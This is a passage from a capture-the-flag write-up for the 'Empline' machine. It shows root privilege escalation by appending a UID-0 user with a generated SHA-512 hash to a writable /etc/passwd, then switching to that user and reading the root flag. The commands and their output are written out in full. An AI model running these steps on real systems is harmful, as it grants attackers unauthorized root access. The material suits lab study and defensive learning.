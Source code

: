 > george@empline:~$ ls -l /etc/passwd
> 
> -rw-r--r-- 1 george george 1660 Jul 20  2021 /etc/passwd


### Editing the /etc/passwd file:

On the attacker's machine, make a new SHA-512 encoded password:

> ┌──(root㉿kali)-[~]
> 
> └─# mkpasswd -m sha-512 password
> 
> $6$Nqybh9KBX8spC3fP$z8b3aRwcZSXDCfEnOllOO2srT/Pn77F8DWiUBG4gUCFWTG1cD26Tjaie3UTUT8Kku1/ksl4fJ/Jn.NVB4Ac4x0

Back on the Empline machine, edit the /etc/passwd file:

> george@empline:~$ echo "pwn:$6$Nqybh9KBX8spC3fP$z8b3aRwcZSXDCfEnOllOO2srT/Pn77F8DWiUBG4gUCFWTG1cD26Tjaie3UTUT8Kku1/ksl4fJ/Jn.NVB4Ac4x0:0:0:root:/root:/bin/sh" > >> /etc/passwd
> 
> george@empline:~$ cat /etc/passwd
> 
> root: x :0:0:root:/root:/bin/bash
> 
> daemon: x :1:1:daemon:/usr/sbin:/usr/sbin/nologin
> 
> bin: x :2:2:bin:/bin:/usr/sbin/nologin
> 
> sys: x :3:3:sys:/dev:/usr/sbin/nologin
> 
> ...
> 
> ubuntu: x :1001:1001:Ubuntu:/home/ubuntu:/bin/bash
> 
> mysql: x :111:116:MySQL Server,,,:/nonexistent:/bin/false
> 
> george: x :1002:1002::/home/george:/bin/bash
> 
> pwn:$6$Nqybh9KBX8spC3fP$z8b3aRwcZSXDCfEnOllOO2srT/Pn77F8DWiUBG4gUCFWTG1cD26Tjaie3UTUT8Kku1/ksl4fJ/Jn.NVB4Ac4x0:0:0:root:/root:/bin/sh
> 
> george@empline:~$ 

And now su to the new user with the password we created:

> george@empline:~$ su pwn
> 
> Password: 
> 
> $ id
> 
> uid=0(root) gid=0(root) groups=0(root)
> 
> $ cd /root
> 
> $ cat root.txt
> 
> [REDACTED]
> 
> $
 
